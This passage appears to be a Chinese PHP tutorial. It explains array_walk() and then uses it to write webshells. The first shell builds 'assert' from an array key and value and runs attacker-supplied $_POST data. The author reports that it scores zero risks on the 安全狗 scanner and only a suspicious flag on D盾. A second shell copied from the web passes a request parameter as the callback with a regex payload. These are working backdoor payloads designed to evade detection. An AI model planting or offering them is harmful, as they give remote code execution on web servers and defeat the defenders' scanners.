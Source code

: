 array_walk() 函数对数组中的每个元素应用用户自定义函数。在函数中，数组的键名和键值是参数。

| 参数         | 描述                                                         |
| :----------- | :----------------------------------------------------------- |
| *array*      | 必需。规定数组。                                             |
| *myfunction* | 必需。用户自定义函数的名称。                                 |
| *userdata*,… | 可选。规定用户自定义函数的参数。您能够向此函数传递任意多参数。 |

简单案例：

```php
<?php
function myfunction($value,$key)
{
    echo "The key $key has the value $value<br>";
}
$a=array("a"=>"red","b"=>"green","c"=>"blue");
array_walk($a,"myfunction");
?>
```

运行结果如下：

```php
The key a has the value red
The key b has the value green
The key c has the value blue
```

根据这个特性手动来写一个 webshell 试试看：

```php
<?php
    function sqlsec($value,$key)
    {   
        $x = $key.$value;
        $x($_POST['x']);
    }
    $a=array("ass"=>"ert");
    array_walk($a,"sqlsec");
?>
```

这个 array_walk 有点复杂，这里用的是回调函数和自定义函数结合的姿势了。

| 安全狗       | D盾                   |
| :----------- | :-------------------- |
| 0 个安全风险 | 级别 2 (可疑)变量函数 |

看了下网上其他姿势：

```php
<?php 
  $e = $_REQUEST['e'];
  $arr = array($_POST['x'] => '|.*|e',);
    array_walk($arr, $e, '');
?>
```
